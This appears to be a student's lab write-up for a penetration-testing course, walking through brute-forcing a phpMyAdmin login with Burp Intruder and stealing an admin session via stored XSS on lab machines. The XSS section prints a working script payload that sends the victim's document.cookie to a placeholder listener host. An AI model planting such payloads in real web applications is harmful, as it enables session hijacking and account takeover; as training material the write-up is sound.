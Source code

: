 # 9.5.2. Practice - Exploiting Admin Consoles
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use Burp Intruder to gain access to the phpMyAdmin site running on your Windows 10 lab machine.

- We spot a phpmyadmin login portal located at the following URL `http://192.168.231.10/phpmyadmin/`
- In order to brute-force the login we must first capture the request in Burp Suite
![[burp_capture.png]]
- we then must set the correct payload variables and set the attack type to "Pitchforkl"![[pitchfork_brute.png]]
- Finally, we setup the payloads via the "Grep Extract" section in Intruder, capturing the response ![[grep_response.png]]
-  Once these steps are complete we can bruteforce the password 
![[Successful_bruteforce.png]]


2.  Insert a new user into the "users" table.
- Once logged in, creating a user is fairly simple. Start with navigating to the "User Accounts" tab
- Click the "Create New User" button
![[admin_user_add.png]]

# 9.6.6 Practice - XSS
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Exploit the XSS vulnerability in the sample application to get the admin cookie and hijack the session. Remember to use the PowerShell script on your Windows 10 lab machine to simulate the admin login.
- First must craft an XSS that was successfully steal the cookie of an administrator. We will setup a listener on port 80 and use the following snippet:
 `<script>new Image().src="http://IP.ADDRESS/cool.jpg?output="+document.cookie;</script>`
-  We then input this into the "Comments" section of the web form.
![[xss_document_cookie.png]]
- To test the validity of the XSS we then run the powershell script on the Windows machine
- We can see that the cookie was set to our listener, enabling us to adjust our cookie and hijack the admin's session
![[cookie_steal.png]]
![[session_hijack.png]]
2.  Consider what other ways an XSS vulnerability in this application might be used for attacks.
As this is a stored XSS there are numerous possible ways to exploit this XSS which would have severe implications on the server and its user's. Examples could include anything from defacing the web application to account compromise.

